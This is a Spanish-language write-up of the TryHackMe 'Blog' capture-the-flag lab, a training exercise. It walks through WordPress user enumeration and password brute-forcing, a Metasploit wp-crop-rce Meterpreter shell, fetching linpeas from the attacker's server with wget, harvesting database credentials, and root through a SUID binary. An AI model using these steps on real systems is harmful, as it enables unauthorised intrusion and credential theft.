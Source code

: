 # Blog

**Platform:** TryHackMe  
**Difficulty:** Medium  
**IP:** 10.10.229.124

---

## 1. Información Inicial
- **Objetivo:** Obtener las dos banderas, una disponible desde un usuario y otra desde root  
- **Herramientas iniciales:** `nmap`, `wpscan`, `wget`, `smbclient`, `linpeas.sh`, `metasploit`, `mysql`.

---

## 2. Reconocimiento y enumeración

Primero realizamos un escaneo básico con `nmap` para identificar los servicios abiertos:
```bash 
nmap -sC -sV 10.10.229.124
```

![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Al estar abiertos los puertos 139 y 445, probamos a entrar de manera anónima y nos permite descargarnos tres archivos de BillySMB.

![Reconocimiento de SMB anónimo](screenshots/2.smb-anon.png)
![Obtención de ficheros desde SMB](screenshots/3.smb-list.png)

El archivo Alice-White-Rabbit.jpg contiene un fichero de texto en su interior, pero nada muy relevante ya que solo se trata de una pista.

Ahora vamos a tratar de investigar el sitio web para buscar vulnerabilidades. Para el que debemos de añadir el host blog.thm al fichero /etc/hosts.

![Fichero /etc/hosts](screenshots/4.hosts.png)
![Vista del sitio web](screenshots/4.5.png)

Aparentemente no encontramos nada especial, simplemente un WordPress con un blog, pero si tratamos de utilizar la herramienta `WPScan` la cosa cambia.

Tratamos de descubrir toda la información posible y nos devuelve dos nombres de usuario que podemos usar para iniciar sesión en el panel de Wordpress (bjoel y kwheel):
```bash 
wpscan --url http://blog.thm --enumerate u,p,t,vp,vt
```
![Escaneo del sitio web con wpscan](screenshots/5.wp-scan-users.png)

## 3. Explotación

Conociendo estos nombre de usuario, lo que se me ocurre es realizar un ataque de fuerza bruta al loguin de WordPress aprovechando la herramienta WPScan, a la que no habría que meterle tantos parámetros como a Hydra.

```bash 
wpscan --url http://blog.thm/wp-login.php --usernames bjoel,kwheel --passwords /usr/share/wordlists/rockyou.txt
```

![Comienzo de fuerza bruta con WPScan](screenshots/6.1-wpscan-bf1.png)
![Obtención de credenciales para el inicio de sesión](screenshots/6.1-wpscan-bf2.png)

Efectivamente, hemos encontrado unas credenciales válidas:
`kwheel:cutiepie1`

Si accedemos al panel de control de WordPress no tenemos mucho que hacer, ya que nos bloquea si tratamos de crear alguna shell. Igualmente obtenemos la versión de WordPress que sería la 5.0.

![Panel de administrador de WordPress](screenshots/7wp-version5.0.png)

En consecuencia, podemos buscar algún exploit de Metasploit en el que utilizar las credenciales.
Tras mirar varios de ellos y consultar por internet, el primero parece ser la mejor opción

![Elección de exploit en Metasploit](screenshots/8.msfconsole.png)

Usaremos el exploit multi/http/wp-crop-rce, al cuál le debemos de ingresar algunos parámetros y cuando lo ejecutamos nos debería de devolver una shell de Meterpreter.

```bash 
set rhosts blog.thm
set lhost 10.8.29.132
set username kwheel
set password cutiepie1
```

![Configuración de exploit elegido para generar shell de Meterpreter](screenshots/9.meterpreter.png)

Cuando ejecutamos el exploit nos devuelve la shell correctamente. Tratamos de investigar varios directorios personales y permisos para escala de privilegios pero no conseguimos nada.

![Listado de directorios de usuarios comunes](screenshots/10.bjoel_user_txt.png)

La otra opción era subir el fichero linpeas.sh y descubrir vulnerabilidades a través de él, por lo que finalmente fue la mejor opción.
Creamos un servidor Python en la localización de nuestro fichero y lo descargamos desde la máquina víctima con Wget.

```bash 
python -m http.server 1234
```

```bash 
wget http://10.8.29.132:1234/linpeas.sh
```

![Servidor python para poder descargar el fichero Linpeas](screenshots/11.python_server.png)

![Descarga del fichero Linpeas en máqunia local](screenshots/12.downloading_linpeas.png)

## 4. Postexplotación

Cuando se haya descargado por completo, debemos de otorgarle permisos de ejecución y ejecutarlo para comenzar a encontrar vulnerabilidades.
```bash 
chmod a+x linpeas.sh
./linpeas.sh
```
El programa nos muestra el fichero de configuración de WordPress donde obtenemos unas credenciales: `wordpressuser:LittleYellowLamp90!@`.

![Listado de ficheros de WordPress por Linpeas con credenciales](screenshots/13.linpeass_credentials.png)

Si accedemos al fichero donde se han encontrado, en este se indica que son de MySQL, por lo que podremos acceder a ella y buscar alguna bandera.

```bash 
mysql -u wordpressuser -p
show databases;
use blog
show tables;
select * from wp_users
```

![Usuarios y hashes obtenido desde la base de datos](screenshots/15.mysql-passw.png)

Encontramos credenciales pero estas son de WordPress, por lo que no nos son de mucha utilidad.
Si seguimos buscando en Linpeas, nos destaca otro fichero `/usr/sbin/checker`, el cuál contiene permisos SUID.

![Ficheros con permisos de SUID](screenshots/16.checker.png)

Si observamos el código con ltrace, vemos como comprueba la variable de entorno admin. Con esta herramienta no nos muestra mucho más, pero simplemente podemos probar a establecer la variable admin a 1 y ejecutar el programa.

```bash 
ltrace /usr/sbin/checker
export admin=1
```

![Explotación del fichero checker](screenshots/17.root.png)

De esta manera hemos conseguido hacernos usuario root, y con todos los permisos listaremos la bandera del directorio /root y buscaremos la del usuario, ya que nos dicen que busquemos mejor cuando consultamos el primer fichero.

```bash 
cat /root/root.txt
find / -type f -name user.txt 2>/dev/null
cat /media/usb/user.txt
```

![Búsqueda de banderas para finalizar](screenshots/18.flags.png)
